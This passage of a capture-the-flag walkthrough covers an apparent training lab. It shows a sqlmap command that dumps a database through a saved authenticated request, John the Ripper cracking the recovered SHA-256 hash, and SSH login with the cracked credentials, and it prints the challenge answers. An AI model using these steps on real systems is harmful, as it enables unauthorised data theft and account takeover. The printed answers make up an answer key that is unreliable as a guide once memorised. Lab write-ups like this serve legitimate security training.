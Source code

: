 <img width="659" alt="4" src="https://user-images.githubusercontent.com/28839345/164976439-961a6e0e-0ae8-4c15-9f92-8ba45e73ef32.png">
Step 3. Save this request into a text file.

<img width="788" alt="5" src="https://user-images.githubusercontent.com/28839345/164976441-ff918b12-5fb7-492e-95da-a09259085036.png">

Step 4. Pass this into SQLMap to use our authenticated user session
To do this open your terminal and type 
`sqlmap -r request.txt --dbms=mysql --dump`

Scroll down

<img width="1432" alt="6" src="https://user-images.githubusercontent.com/28839345/164976444-36d1cbdb-bf56-4071-af61-6b25b2fde3e1.png">

<img width="1228" alt="7" src="https://user-images.githubusercontent.com/28839345/164976448-00f8ee89-faba-4692-baa4-1859c52b38e6.png">

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

In the sql map find the following output which displays the other table name.

<img width="1334" alt="8" src="https://user-images.githubusercontent.com/28839345/164976449-c93d5c38-ead8-4ef2-aa2c-b5435d35c884.png">

**What was the other table name?**

post

#### [Task 4] Cracking a password with JohnTheRipper

 To crack the hashed password you can use JohnTheRipper.
 
 First copy the hash and paste it to a file.
 
<img width="671" alt="9" src="https://user-images.githubusercontent.com/28839345/164976451-23f75882-d841-4ef1-b914-fd6aa2c2921c.png">
 
 Run the following command 
 
 `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
 
<img width="999" alt="10" src="https://user-images.githubusercontent.com/28839345/164976452-986bb7b3-2a4f-4970-b40f-927c12bd0bc1.png">

 
**What is the de-hashed password?**

videogamer124

Now you have a password and username. Try SSH'ing onto the machine.

Run the command `ssh agent47@10.10.49.180` and enter the password 'videogamer124'.

<img width="795" alt="11" src="https://user-images.githubusercontent.com/28839345/164976537-3af21be7-16a5-411a-9287-88820b3ec5c5.png">
  
**What is the user flag?**
